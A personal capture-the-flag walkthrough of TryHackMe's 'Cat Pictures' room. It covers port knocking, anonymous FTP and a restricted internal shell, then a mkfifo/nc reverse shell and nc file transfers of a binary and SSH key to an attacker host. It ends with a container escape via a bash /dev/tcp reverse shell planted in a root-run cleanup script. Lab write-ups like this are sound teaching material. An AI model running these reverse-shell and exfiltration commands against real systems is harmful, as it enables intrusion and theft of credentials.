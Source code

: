 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Cat Pictures
# DESCRIPTION       . I made a forum where you can post cute cat pictures!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/catpictures
```

```
sudo nmap -sSVC -T5 -p- 10.10.60.246 -oN cats
```

```
PORT     STATE    SERVICE      VERSION
21/tcp   filtered ftp
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37436480d35a746281b7806b1a23d84a (RSA)
|   256 53c682efd27733efc13d9c1513540eb2 (ECDSA)
|_  256 ba97c323d4f2cc082ce12b3006189541 (ED25519)

2375/tcp filtered docker
4420/tcp open     nvm-express?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|     Please enter password:
|     Invalid password...
|     Connection Closed
|   NULL, RPCCheck: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:

8080/tcp open     http         Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
|_http-title: Cat Pictures - Index page
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
```

#### PORT 21 

- Filtered, can't connect.

#### PORT 4420 

- Seems to be an interactive shell, but we don't have the credentials.

#### PORT 8080

- I noticed that there are 1 total registered users, and the only post on the forum is made by user `user`, so I assumed he must be the only account created. The post contains the following message

```
POST ALL YOUR CAT PICTURES HERE :)

Knock knock! Magic numbers: 1111, 2222, 3333, 4444
```

- I tried a lot of things after this, including fuzzing for potential directories but I had no clear path so I've decided to help myself with a writeup.

- The message in the post I've found should make us think of "[port knocking](https://en.wikipedia.org/wiki/Port_knocking)", something I wasn't familiar with upon this point. 

 - I've used [this](https://github.com/grongor/knock) tool to knock on ports `1111`, `2222`, `3333` and `4444`. 

- After this, considering the information found on wikipedia, I've scanned the target with nmap again.

- This time, the FTP service wasn't filtered anymore.

#### PORT 21

- I was able to login using `anonymous` and to download the only file available, `note.txt`.

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is {REDACTED}.
- catlover
```

#### PORT 4420 

- We're able to authenticate to this remote shell. However, we have very limited functionality. 
- `cd` is **NOT** working, as we were informed, but also a lot of other commands are missing. (even `mkdir`)

- Using `ls`, I found the following binaries on the system

```bash
ls /bin

bash
cat
echo
ls
nc
rm
sh
```

```bash
ls /usr/bin

mkfifo
touch
wget
```

- Also, there is one binary called `runme` in `/home/catlover` but it is password protected.

- I tried using `nc` to transfer the binary to my own system but it didn't work, so I've assumed this had something to do with the shell.

- If we use `/bin/bash`, we're unable to see any output. 
- So let's create a reverse shell first.

**ON ATTACKER BOX**

```
nc -nvlp 3132
```

**ON INTERACTIVE SHELL**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc IP 3132 >/tmp/f
```

- Yes, this is from revshells. But notice that i've replaced `sh` with `bash`.

- Now that we have a "proper" reverse shell, we can transfer the `runme` binary using `nc`.

**ON ATTACKER BOX

```
nc -nvlp 5678 > runme
```

**ON REV SHELL**

```
nc -N attacker_IP 5678 < /home/catlover/runme
```

- Now that we have the binary locally, I've used `strings` to do a basic examination.

```
r{REDACTED}
Please enter yout password: 
Welcome, catlover! SSH key transfer queued! 
touch /tmp/gibmethesshkey
Access Denied
```

- The password can be found in plaintext, alongside some hints to the binary's functionality.

- It'll copy a (hopefully) private SSH key to `/tmp/gibmethesshkey`. Right? NO!!! :) I've lost a LOT of time on this, thinking that I got something wrong with `nc` not receiving the content of the file, but the actual `id_rsa` file is created in `/home/catlover` :| 

- I've transfered the `id_rsa` key using the same method as above and I've `chmod`'ed it to `600`. 

```
ssh -i key catlover@boxIP
```

```
root@7546fa2336d6:/# id
uid=0(root) gid=0(root) groups=0(root)
```

- The first flag is in `/root/flag.txt`.

- However, considering the hostname, `7546fa2336d6`, I was thinking that we might be in a container.

- After some time I found an unusual script in `/opt/clean`, called `clean.sh`.

```
#!/bin/bash

rm -rf /tmp/*
```

- So i've replaced the `rm` command with a `bash reverse shell`. 

```
bash -i >& /dev/tcp/IP/3132 0>&1
```

```
root@cat-pictures:~# id
uid=0(root) gid=0(root) groups=0(root)
```

- Notice the different host name. We're out of the container :) 

- The last flag is in `/root/root.txt`.
